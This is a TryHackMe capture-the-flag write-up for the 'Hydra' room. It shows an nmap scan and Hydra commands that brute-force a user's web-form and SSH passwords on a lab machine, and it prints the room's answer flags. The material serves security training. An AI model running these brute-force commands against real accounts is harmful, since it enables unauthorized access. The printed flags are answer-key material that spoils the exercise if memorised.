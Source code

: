 <p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/hydra/Hydra_Cover.png" alt="Hydra Logo">
</p>

# Hydra

This guide contains the answer and steps necessary to get to them for the [Hydra](https://tryhackme.com/room/hydra) room.

### Using Hydra

In this task we will be using Hydra to brute force passwords from someones account. Two types will be covered here: SSH and HTTP forms.

1. Use Hydra to bruteforce molly's web password. What is flag 1?

   We can do an nmap scan to find out which ports to use (or just navigate to the ip address in your browser).
   
   ```cmd
   sudo nmap -sS 10.10.111.109 -sV -sC
   ```
   
   ![Nmap]()
   
   ![Web Form]()
   
   To bruteforce a web form we need to use the `http-post-form` argument. First we must check the page source to find out if it uses `get` or `post.
   
   ![Web Page Source]()
   
   Now we can put everything we need into the command.
   
   ```cmd
   hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.111.109 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -t 4
   ```
   
   1[Hydra Web Form]()
   
   Now we can log into the web page with our acquired credentials.
   
   ![Web Page Login]()

   ><details><summary>Click for answer</summary>THM{2673a7dd116de68e85c48ec0b1f2612e}</details>

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

   To crack her SSH password we use the following command:
   
   ```cmd
   hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.111.109 -t 4 
   ```
   
   ![Hydra SSH]()
   
   Now we can log in with:
   
   ```cmd
   ssh molly@10.10.111.109
   ```
   
   Looking through the folders we can find the flag.

   ><details><summary>Click for answer</summary>THM{c8eeb0468febbadea859baeb33b2541b}</details>

**Extra:** Interestingly, when going through the ubuntu user folder, we seem to come across a file with credentials and a flag similar to the first one.

![Discovery]()
